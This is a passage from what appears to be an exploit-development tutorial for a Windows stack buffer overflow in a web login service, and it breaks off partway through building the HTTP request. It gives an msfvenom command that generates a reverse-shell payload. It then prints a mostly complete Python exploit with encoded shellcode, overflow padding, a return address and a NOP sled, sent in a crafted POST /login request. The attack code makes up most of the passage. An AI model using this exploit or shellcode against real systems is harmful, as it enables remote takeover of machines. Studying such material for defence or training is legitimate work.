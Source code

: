 ```

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.12",80))
s.send(request)
```

Running the script we can check on x32dbg the results, we have enough space for our shellcode. Now, it's time to generate it. We can use the command: 

```
msfvenom -p windows/shell_reverse_tcp lhost=you_ip lport=443 exitfunc=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python
```
Now, we only need to add it to our Python script and then run it against our target machine. The final exploit code should look like this:

```
#!/usr/bin/python
import socket

# bad chars = \x00\x0a\x0d\x25\x26\x2b\x3d
# return addres = "\xaf\x31\x09\x10"

shellCode = ("\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x30\xa9\x9b\xf1\x83\xee\xfc\xe2\xf4\xcc\x41\x19\xf1"
"\x30\xa9\xfb\x78\xd5\x98\x5b\x95\xbb\xf9\xab\x7a\x62\xa5"
"\x10\xa3\x24\x22\xe9\xd9\x3f\x1e\xd1\xd7\x01\x56\x37\xcd"
"\x51\xd5\x99\xdd\x10\x68\x54\xfc\x31\x6e\x79\x03\x62\xfe"
"\x10\xa3\x20\x22\xd1\xcd\xbb\xe5\x8a\x89\xd3\xe1\x9a\x20"
"\x61\x22\xc2\xd1\x31\x7a\x10\xb8\x28\x4a\xa1\xb8\xbb\x9d"
"\x10\xf0\xe6\x98\x64\x5d\xf1\x66\x96\xf0\xf7\x91\x7b\x84"
"\xc6\xaa\xe6\x09\x0b\xd4\xbf\x84\xd4\xf1\x10\xa9\x14\xa8"
"\x48\x97\xbb\xa5\xd0\x7a\x68\xb5\x9a\x22\xbb\xad\x10\xf0"
"\xe0\x20\xdf\xd5\x14\xf2\xc0\x90\x69\xf3\xca\x0e\xd0\xf6"
"\xc4\xab\xbb\xbb\x70\x7c\x6d\xc1\xa8\xc3\x30\xa9\xf3\x86"
"\x43\x9b\xc4\xa5\x58\xe5\xec\xd7\x37\x56\x4e\x49\xa0\xa8"
"\x9b\xf1\x19\x6d\xcf\xa1\x58\x80\x1b\x9a\x30\x56\x4e\xa1"
"\x60\xf9\xcb\xb1\x60\xe9\xcb\x99\xda\xa6\x44\x11\xcf\x7c"
"\x0c\x9b\x35\xc1\x5b\x59\x30\xa2\xf3\xf3\x30\xa8\x20\x78"
"\xd6\xc3\x8b\xa7\x67\xc1\x02\x54\x44\xc8\x64\x24\xb5\x69"
"\xef\xfd\xcf\xe7\x93\x84\xdc\xc1\x6b\x44\x92\xff\x64\x24"
"\x58\xca\xf6\x95\x30\x20\x78\xa6\x67\xfe\xaa\x07\x5a\xbb"
"\xc2\xa7\xd2\x54\xfd\x36\x74\x8d\xa7\xf0\x31\x24\xdf\xd5"
"\x20\x6f\x9b\xb5\x64\xf9\xcd\xa7\x66\xef\xcd\xbf\x66\xff"
"\xc8\xa7\x58\xd0\x57\xce\xb6\x56\x4e\x78\xd0\xe7\xcd\xb7"
"\xcf\x99\xf3\xf9\xb7\xb4\xfb\x0e\xe5\x12\x7b\xec\x1a\xa3"
"\xf3\x57\xa5\x14\x06\x0e\xe5\x95\x9d\x8d\x3a\x29\x60\x11"
"\x45\xac\x20\xb6\x23\xdb\xf4\x9b\x30\xfa\x64\x24")

bufferOvrCode = "A" * 780 + "\xaf\x31\x09\x10" + "\x90" * 8 + shellCode

requestLenght = len(bufferOvrCode) + 23

request="POST /login HTTP/1.1\r\n"
request+="Host: 192.168.0.12\r\n"
request+="Content-Length: "+str(requestLenght)+"\r\n"
request+="Cache-Control: max-age=0\r\n"
request+="Upgrade-Insecure-Requests: 1\r\n"
request+="Origin: http://192.168.0.12\r\n"
request+="Content-Type: application/x-www-form-urlencoded\r\n"
request+="User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36\r\n"
request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n"
request+="Referer: http://192.168.0.12/login\r\n"
```